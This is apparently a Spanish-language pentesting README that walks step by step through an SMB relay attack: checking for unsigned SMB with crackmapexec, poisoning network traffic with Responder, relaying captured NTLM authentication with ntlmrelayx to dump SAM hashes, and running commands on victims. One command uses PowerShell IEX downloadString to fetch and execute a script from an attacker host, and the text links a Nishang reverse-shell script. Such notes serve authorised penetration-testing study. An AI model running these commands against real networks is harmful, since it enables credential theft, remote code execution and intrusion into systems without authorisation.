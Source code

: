 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```

# Ejecutar comandos mediante un SMB Relay por IPv6
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
